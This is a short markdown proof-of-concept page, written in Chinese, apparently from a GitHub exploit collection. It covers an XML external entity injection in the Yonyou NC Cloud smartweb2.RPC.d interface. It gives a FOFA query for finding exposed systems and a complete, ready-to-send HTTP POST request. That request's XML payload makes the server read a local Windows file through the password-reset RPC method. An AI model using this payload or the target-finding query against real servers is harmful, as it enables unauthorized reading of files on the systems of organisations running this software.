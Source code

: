 ## 用友NC_CLOUD_smartweb2.RPC.d_XML外部实体注入

用友NC系统的smartweb2.RPC.d接口存在XML外部实体注入漏洞。

## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
POST /hrss/dorado/smartweb2.RPC.d?__rpc=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25
Content-Length: 258
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

__viewInstanceId=nc.bs.hrss.rm.ResetPassword~nc.bs.hrss.rm.ResetPasswordViewModel&__xml=<!DOCTYPE z [<!ENTITY Password SYSTEM "file:///C://windows//win.ini" >]><rpc transaction="10" method="resetPwd"><vps><p name="__profileKeys">%26Password;</p ></vps></rpc>
```
![3a124b876c9485904654afbcc4d41771](https://github.com/wy876/POC/assets/139549762/bfe04702-24a5-435a-a67e-e26bfa9447c6)
